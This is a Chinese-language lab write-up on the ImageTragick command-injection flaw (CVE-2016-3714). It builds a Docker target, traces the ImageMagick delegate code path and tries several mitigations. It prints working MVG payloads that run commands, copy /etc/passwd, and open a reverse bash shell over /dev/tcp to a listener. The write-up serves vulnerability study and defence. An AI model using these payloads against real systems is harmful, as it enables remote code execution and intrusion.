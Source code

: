 # Imagetragick 命令执行漏洞（CVE-2016–3714）

## 一.靶场环境构建

#### 1.使用 Vulhub 一键搭建漏洞测试靶场

- 安装Docker，docker-compose

```
sudo apt-get update && apt-getinstall docker.io
sudo curl -L https://github.com/docker/compose/releases/download/1.18.0/docker-compose-`uname -s`-`uname -m` -o /usr/local/bin/docker-compose

```
- 启动Docker服务

```
sudo service docker start
```
- 拉取vulhub

```
git clone https://github.com/vulhub/vulhub.git 
```
- 自动化编译docker环境

```
docker-compose up -d
```
#### 2.环境完成测试


- 本地web服务器访问：已可访问服务器下的已有页面

![](pic/access.PNG)

- upload.php:将上传的文件传入PHP的imagick扩展，触发漏洞

## 二.漏洞利用实战

**1. docker容器内使用imagemagick convert转换命令，触发漏洞：**

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0"|ls -l")'
pop graphic-context
```
-  嵌入命令执行成功

![](pic/test4.PNG)


**2. 本机内测试已有的简单poc:vul.jpg**

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`cat /etc/passwd > /tmp/success`'
pop graphic-context
```
- 复制/etc/passwd文件到tmp目录。访问demo.php后，在docker容器中查看temp目录，成功获得success文件

![](pic/test3.PNG)

**3. 建立TCP连接，反弹shell：**
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|/bin/bash -i >& /dev/tcp/172.17.0.1/8889 0>&1")'
pop graphic-context

```
- 测试前，为了兼容性，先把靶机shell解释器改为bash：

```
sudo docker-compose exec apache rm -rf /bin/sh
sudo docker-compose exec apache ln -s /bin/bash /bin/sh
```
- 本机nc命令监听TCP 8889端口，成功反弹shell，可看到容器内安装的imagemagick版本是特定的漏洞版本

![](pic/test5.PNG)


## 三.漏洞原理分析

- ImageMagick最开始使用ReadImage函数解析图片，此时所谓的图片完全可以是处理过的参数字符串，（ImageMagick默认支持一种图片格式mvg，以文本形式写入矢量图的内容）当图片地址以https://开头时，就会执行后续的委托行动。最后调用ExternalDelegateCommand传入了系统的system函数执行命令。

- 完整的解析执行过程：

```
ConvertMain() -> MagickCommandGenesis()-> ConvertImageCommand() 

-> ReadImages() -> ReadImage() ->ReadMVGImage() -> DrawImage() ->ReadImage() 

-> InvokeDelegate() -> system()
```
 
- CVE-2016–3714即是利用了ImageMagick传递委托命令时的文件名过滤不足的漏洞。委托的本质是调用外部的lib来处理文件。委托定义在ImageMagick的默认配置文件：delegates.xml里，其中支持HTTPS图片的一条：
```
 <delegate decode="https" command="&quot;curl&quot; -s -k -L -o &quot;%o&quot; &quot;https:%M&quot;"/>
```
- 解析https图片的时候，文件有`fill`字段代表需要填充外部的图片进当前的图片，curl指用curl命令将外部图片下载后填充。重点是最后的url部分：‘https:%M’，由于参数过滤不足，（基本没有过滤）就可以进行shell命令注入。只需使用反引号（`）或闭合双引号拼接命令行，传入了系统的system函数，就可执行任意命令。

[参考来源：https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html](https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html)

[https://mp.weixin.qq.com/s?__biz=MzAwNDE4Mzc1NA==&mid=503340500&idx=1&sn=00b91865cd38d402571ffc6deeb04269&scene=23&srcid=0507KTeMDHh4Hq2A9lMrPhrR#rd](https://mp.weixin.qq.com/s?__biz=MzAwNDE4Mzc1NA==&mid=503340500&idx=1&sn=00b91865cd38d402571ffc6deeb04269&scene=23&srcid=0507KTeMDHh4Hq2A9lMrPhrR#rd)

## 四.漏洞影响分析

**漏洞的 CVSS 评分分析**



## 五.漏洞缓解

**检测并阻止「漏洞利用」行为**


## 六.漏洞修补

**1. 在上传图片时需要通过文件内容来判断用户上传的是否为真实图片类型。**

- 处理图片前，是图片头，如果图片头不是你想要的格式，那么就不调用ImageMagick处理图片。php使用Fileinfo 获取文件MIME类型，更改web站点uplaod.php页面代码：

- 原码仅仅检测了后缀名，导致伪装格式图片上传
![](pic/defend3.PNG)

- 改为
```
$finfo    = finfo_open(FILEINFO_MIME);
$mimetype = finfo_file($finfo, $_FILES);
if (!in_array($mimetype, ['gif', 'png', 'jpg', 'jpeg'])) {
    die('Unsupported filetype uploaded.');
}
```
- 测试。检测出上传图片格式出错
![](pic/defend3.PNG)

**2. 在delegates.xml中删除对HTTPS方式的支持**

- 更改<delegate decode="https" command="&quot;curl&quot; -s -k -L -o &quot;%o&quot; &quot;https:%M&quot;"/> 的"M"

- 容器本地convert测试。命令解析出错

![](pic/defend2.PNG)

- 外部宿主机web访问upload.php上传图片，漏洞仍能触发，此处存在疑问，php使用的是imagick扩展API，调用Imagick类的构造。此处仍能触发漏洞，说明PHP imagick扩展与imagemagick独立？

**3. 使用策略配置文件来禁止解析https等敏感操作**
- 进入容器内部 
```
sudo docker-compose exec apache bash
```

- 在policy.xml（位于/usr/local/etc/ImageMagick-6）最后一行进行增加下列配置:

```
<policymap>
<policy domain="coder" rights="none" pattern="EPHEMERAL" />
<policy domain="coder" rights="none" pattern="URL" />
<policy domain="coder" rights="none" pattern="HTTPS" />
<policy domain="coder" rights="none" pattern="MVG" />
<policy domain="coder" rights="none" pattern="MSL" />
</policymap> 
```
- 再次尝试触发漏洞：容器本地convert测试，漏洞没有触发
 
![](pic/defend1.PNG)

- 外部宿主机wed访问upload.php上传图片，漏洞仍能触发，同上存在同样的

[参考来源：https://access.redhat.com/security/vulnerabilities/ImageTragick](https://access.redhat.com/security/vulnerabilities/ImageTragick)

[https://imagetragick.com/](https://imagetragick.com/)
